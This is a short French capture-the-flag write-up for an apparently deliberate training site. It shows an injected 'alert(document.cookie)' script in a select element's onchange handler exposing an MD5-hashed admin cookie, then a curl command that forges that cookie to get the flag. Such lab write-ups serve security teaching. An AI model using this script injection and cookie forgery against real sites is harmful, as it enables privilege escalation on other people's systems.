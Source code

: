 /index.php?page=survey
Insérer le script "alert(document.cookie);" dans le onchange d'un des \<select\>
Ca affiche "I_am_admin=68934a3e9455fa72420237eb05902327"
Si on unhash (MD5) "68934a3e9455fa72420237eb05902327" ça on obtient "false"
On hash (MD5) "true" qui donne "b326b5062b2f0e69046810717534cb09"
On utilise curl avec la commande : curl --cookie "I_am_admin=b326b5062b2f0e69046810717534cb09" \<IP_DARKLY\>
On obtient le flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3

